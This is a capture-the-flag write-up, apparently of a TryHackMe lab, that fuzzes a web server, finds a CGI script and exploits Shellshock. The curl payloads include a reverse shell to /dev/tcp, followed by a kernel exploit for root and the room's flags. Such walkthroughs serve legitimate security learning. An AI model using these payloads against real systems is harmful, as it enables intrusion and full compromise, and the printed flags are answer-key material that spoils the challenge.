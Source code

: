 ```yaml
---
sticker: emoji//1f422
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |



# RECONNAISSANCE
---


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250429135028.png)

Let's fuzz:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.214.142/FUZZ" -ic -c -t 200 -e .php,.html,.git

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.214.142/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .git
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index.html              [Status: 200, Size: 3025, Words: 285, Lines: 43, Duration: 284ms]
.html                   [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 285ms]
                        [Status: 200, Size: 3025, Words: 285, Lines: 43, Duration: 285ms]
uploads                 [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 162ms]
img                     [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 933ms]
cgi-bin                 [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 933ms]
admin                   [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 160ms]
css                     [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 163ms]
js                      [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 160ms]
backup                  [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 159ms]
secret                  [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 159ms]
```


We got some interesting findings like `backup, secret` and `cgi-bin` let's check the first two:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250429140047.png)

There's an `id_rsa` key on here, we don't have the username so, let's simply save it for now, let's proceed to `secret`:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250429140228.png)

I tried getting some info with `steghide` but no luck, let's proceed then with `cgi-bin`, a `cgi-bin` directory often indicates the presence of legacy CGI (Common Gateway Interface) scripts, which can be vulnerable to attacks like **Shellshock**, **command injection**, or **path traversal** if poorly coded. 

Let's try `shellshock`, this vulnerability allows remote code execution without confirmation. A series of random characters, `() { :; }; ,` confuses Bash because it doesn't know what to do with them, so by default, it executes the code after it.

We need to fuzz the directory to find the script inside of it:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.214.142/cgi-bin/FUZZ" -ic -c -t 200 -e .cgi

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.214.142/cgi-bin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .cgi
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

test.cgi                [Status: 200, Size: 13, Words: 2, Lines: 2, Duration: 163ms]
```

There we go, let's proceed with exploitation.




# EXPLOITATION
---

With this, we can start the `shellshock` attack, let's test it:

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'id'" http://10.10.214.142/cgi-bin/test.cgi
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250429140729.png)

There we go, `shellshock` attack works, let's get a shell then:

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'sh -i >& /dev/tcp/IP/9001 0>&1'" http://10.10.214.142/cgi-bin/test.cgi
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250429140854.png)


We can proceed with privilege escalation.



# PRIVILEGE ESCALATION
---


Let's stabilize our shell first:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250429141002.png)

Let's use `linpeas` to look for any `PE` vector:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250429142332.png)

As seen, we are dealing with a `3.13.0-32-generic` Linux version, let's search information about how to escalate privileges in it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250429142418.png)

There's a `c` exploit we can get, once we get it on our victim machine, we can do the following:

```
gcc pe.c -o pe
```

If we try compiling it, we get this error:

```
www-data@ubuntu:/tmp$ gcc pe.c -o privesc
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

This is a problem in the `PATH`, we can fix it with:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Now, let's compile again:

```
gcc pe.c -o pe
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250429143345.png)

There we go, we can simply run it now:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250429143408.png)

We are root now and can finally read both flags:

```
# cat /home/ryan/user.txt
THM{Sh3llSh0ck_r0ckz}
```

```
# cat /root/root.txt
THM{g00d_j0b_0day_is_Pleased}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250429143558.png)

